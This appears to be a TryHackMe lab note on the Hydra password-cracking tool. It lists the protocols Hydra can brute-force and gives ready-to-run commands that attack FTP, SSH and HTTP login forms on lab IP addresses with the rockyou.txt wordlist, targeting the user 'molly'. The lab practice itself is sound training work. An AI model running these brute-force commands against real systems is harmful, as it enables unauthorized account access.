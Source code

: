 # THM - Hydra

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, 
FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, 
HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, 
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, 
Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

```shell
hydra -l user -P passlist.txt ftp://10.10.33.240

hydra -l <username> -P <full path to pass> 10.10.33.240 -t 4 ssh

hydra -l <username> -P <wordlist> 10.10.33.240 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


hydra -l molly -P rockyou.txt 10.10.154.209 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

hydra -l molly -P rockyou.txt 10.10.154.209 ssh

ssh molly@10.10.154.209	
```
